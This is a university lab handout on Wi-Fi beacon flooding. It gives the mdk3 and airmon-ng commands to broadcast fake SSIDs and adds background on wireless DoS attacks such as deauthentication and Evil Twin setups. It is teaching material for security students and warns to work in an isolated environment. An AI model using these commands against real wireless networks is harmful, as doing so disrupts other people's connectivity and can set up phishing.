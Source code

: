 
## Module Code: 6CSEF005W  
**Module name:** Wireless Network Security  
**Lab activity:** Beacon Flood Attack  
**Author:** Dr Ayman El Hajjar  

---

#  Lab Activity: Beacon Flooding with Fake SSIDs

## How todo this lab

In this lab you are working in pairs. 
- One pc will act as the attacker
- Another PC will act as the Access Point
---

###  Objective

This lab demonstrates how attackers can flood the wireless environment with fake beacon frames, creating dozens or hundreds of bogus SSIDs. This can confuse users, overwhelm client devices, and even crash older access points or Wi-Fi scanners.

---

###  Warning

Only perform this lab in an isolated environment. Flooding beacon frames can severely disrupt Wi-Fi discovery and scanning.

---

##  Step 1: Prepare the Environment

Ensure `mdk3` is installed and the interface is in monitor mode:

```bash
sudo airmon-ng start lab-wlan
```

---

## Step 2: Create a Fake Beacon List

Use the script or manually create a list of SSIDs:

Make sure you change the MAC address

```bash
cat > /tmp/beacon_list.txt << EOF
FakeAP1,00:11:22:33:44:55,2412,100
FakeAP2,66:77:88:99:AA:BB,2437,100
EOF
```

---

## Step 3: Launch the Beacon Flood

Run the script:

```bash
sudo ./beacon_flooder.sh
```

Or use `mdk3` directly:

```bash
sudo mdk3 wlan0mon b -f /tmp/beacon_list.txt
```

> Each entry will appear as a unique Wi-Fi network to nearby devices.

---

##  Step 4: Observe the Effect

On a client device:
- Open Wi-Fi scan list
- Notice a large number of fake SSIDs
- Attempt to connect (will fail)

---

##
 Discussion Points

- Why do these SSIDs appear in the list?
- Can this attack affect enterprise Wi-Fi setups?
- How might detection or mitigation tools identify this behaviour?

---

##
 Cleanup

```bash
sudo pkill mdk3
sudo airmon-ng stop wlan0mon
```

---

##  Optional Screenshots

Store in `tasks/img/`:
- Screenshot of Wi-Fi scan with fake SSIDs
- mdk3 terminal output
- Client confusion or scan delays

---

## Summary


| Phase     | Tool           | Purpose                                 |
|-----------|----------------|-----------------------------------------|
| Setup     | `mdk3`         | Send beacon frames with fake SSIDs      |
| Flood     | Script/Manual  | Overload nearby Wi-Fi scan lists        |
| Observe   | Client scan    | Demonstrate DoS or confusion effect     |

---



---

##  Background: Denial of Service (DoS) Attacks in Wi-Fi

Wireless LANs (WLANs) are highly susceptible to various Denial of Service (DoS) attacks due to the shared nature of the radio spectrum. Common DoS techniques include:

- **Deauthentication attacks**: Sending spoofed deauth packets to disconnect clients.
- **Disassociation attacks**: Sending spoofed disassociation frames to force reauthentication.
- **CTS/RTS flooding**: Exploiting control frame protocols to monopolise bandwidth.
- **Beacon flooding**: Overwhelming nearby clients with fake SSIDs to confuse and crash network scanners.

### Beacon Flooding as a DoS Attack

Beacon flooding is one of the most effective and low-effort Wi-Fi DoS attacks. Here's why:

- Client devices use beacon frames to discover available networks.
- By sending hundreds of fake beacons with random SSIDs, the attacker:
  - Confuses users with misleading network names.
  - Overloads network lists on vulnerable devices.
  - Potentially causes instability or UI crashes on older clients.
- The attack requires no connection or interaction with legitimate networks.
- It is usually performed using tools like `mdk3` or `mdk4`.

> ❗ As soon as clients refresh their Wi-Fi list, they’ll see dozens of fake APs.

This attack is effective against both home and enterprise setups where user confusion can lead to further phishing or Evil Twin attacks.

---
